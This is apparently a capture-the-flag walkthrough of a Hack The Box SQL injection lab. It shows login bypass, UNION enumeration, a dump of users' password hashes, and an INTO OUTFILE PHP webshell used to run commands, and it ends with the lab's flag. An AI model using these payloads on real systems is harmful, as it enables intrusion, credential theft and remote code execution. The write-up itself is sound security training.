HTB Skill Assessment

Author: `adi7312`

This CTF was prepared to help understand UNION-based SQLi. In this walktrough we will not only focus on finding root flag, let's have some fun and use the knowledge that we obtained during this HTB course. 


## **Performing OR Injection**

We are welcomed with login site.





Firstly, we should try the simplest way to bypass login screen - OR Injection!


**Remember to put space after comment sings `--`.**





As we can see, we successfuly bypassed the login site.


## **Enumerating database**

### **Determining number of columns**

We can see search bar (so we can suspect that this 'search' is vulerable to SQLi) and some table with 4 columns. But it doesn't mean that there are only 4 columns in that table, some can be hidden. So we need to determine the exac number of columns in that table, we can use `ORDER BY` clause. Let's try with `' ORDER BY 5 -- `.





As we can see nothing happened, so for sure there minimum 5 columns. Let's check it for 6.




For 6 columns we got error, so definitely we have 5 columns.

### **Determining the visible columns**

Here is the part where UNION-based SQLi is necessary. Let's put the following payload:
```sql
' union select 1,@@version,3,4,5 -- 
```





As a result we can see the first **visible** column contain injected parameter (@@version), but in querry we placed it at second place, so we can determine that first column is not visible for us.


### **Determining schemas, tables and useful columns**

So, we know how many columns we have and which of them are visible, let's further enumerate our database.

```sql
' union select 1,schema_name,3,4,5 from information_schema.schemata-- 
```



We can see interesting database called *ilfreight* let's check its tables.

```sql
' UNION SELECT 1,TABLE_SCHEMA,TABLE_NAME,4,5 from INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA='ilfreight'-- 
```



Table `users` seems to be the most interesting, let's check its columns.

```sql
' UNION SELECT 1,COLUMN_NAME,TABLE_SCHEMA,TABLE_NAME,5 from INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='users'-- 
```





We got some interesting columns: username, password and id. Now we need to list content of that columns.

```sql
' UNION SELECT 1,id,username,password,5 FROM ilfreight.users -- 
```



And we got username and hash user's password! Remember to validate and sanitize user input!

## **CTF part - checking user and his permissions**

Our task is to get root flag. From previous "fun" we know that: we have 5 columns, which only 4 are visible and we can conduct UNION-based SQLi. Let's check the user.

```sql
' UNION SELECT 1,USER(),3,4,5 -- 
```




As we can see the querry are executed by root. Let's check if we have super privileges.

```sql
' UNION SELECT 1,super_priv,3,4,5 FROM mysql.user -- 
```




Yes, the user have super privileges! Let's check also if user has `FILE` privileges. 





Yes, it has FILE privileges. The last thing we need to do ensure that we can WRITE files is to check if SECURE_FILE_PRIV is enabled or disabled (we want it to be disabled).

```sql
' UNION SELECT 1, variable_name, variable_value,4,5 FROM information_schema.global_variables where variable_name="secure_file_priv"-- 
```




It doesn't have any value, so it is disabled.

## **CTF part - webshell**

So we know that we can write files, so let's try to write some webshell and upload it using query.

```sql
' union select "",'<?php system($_REQUEST[0]); ?>', "", "", "" into outfile '/var/www/html/dashboard/shell.php'-- -
```

After writing `http://site:port/dashboard/shell.php?0=id` we got successful result!





Insted of `id` let's use `ls /` to list main directory.





And we have our flag! The last thing is to print it out.





The final flag: `528d6d9cedc2c7aab146ef226e918396`
